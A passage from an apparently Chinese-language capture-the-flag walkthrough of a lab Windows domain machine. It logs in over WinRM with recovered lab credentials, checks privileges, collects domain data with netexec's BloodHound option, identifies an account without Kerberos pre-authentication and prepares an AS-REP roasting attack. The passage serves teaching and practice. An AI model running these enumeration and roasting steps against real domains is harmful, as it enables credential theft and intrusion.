 成功获取到一个字符串 应该是密码

## 4. 提权
利用 `music : Bigpoppa1972 ` winrm登录上来
先看权限有没有可以利用的
```bash
*Evil-WinRM* PS C:\Users\TEMP\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
没有看到可以直接用的

### 4.1. 利用Bloodhound收集域内环境
收集域内信息

```bash
┌──(root㉿kali)-[/home/kali/thl/BIG]
└─# netexec ldap 192.168.212.4 -u 'music' -p 'Bigpoppa1972'  --bloodhound --collection All --dns-server 192.168.212.4
SMB         192.168.212.4   445    BIG              [*] Windows 10 / Server 2016 Build 14393 x64 (name:BIG) (domain:bbr.thl) (signing:True) (SMBv1:False)
LDAP        192.168.212.4   389    BIG              [+] bbr.thl\music:Bigpoppa1972
LDAP        192.168.212.4   389    BIG              Resolved collection methods: group, acl, dcom, session, rdp, psremote, container, trusts, objectprops, localadmin
LDAP        192.168.212.4   389    BIG              Done in 00M 00S
LDAP        192.168.212.4   389    BIG              Compressing output into /root/.nxc/logs/BIG_192.168.212.4_2024-12-06_083621_bloodhound.zip


```
导入进行分析
发现`song`用户是无预身份验证的账户
存在AS-REP漏洞
![Pasted image 20241205174333](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241205174333.png)

### 4.2. AS-REPRoasting
因为song 是无预身份验证的账户 即禁用预认证的用户
> 禁用预认证的用户会向域控制器发送**不包含加密**的身份验证请求，因此攻击者可以捕获 AS-REP 响应并进行密码破解。

我们可以进行 AS-REPRoasting 攻击
在攻击之前先同步域时间
```bash
┌──(root㉿kali)-[/home/kali/thl/BIG]
└─# rdate -n 192.168.212.4
Fri Dec  6 08:47:54 CST 2024

```

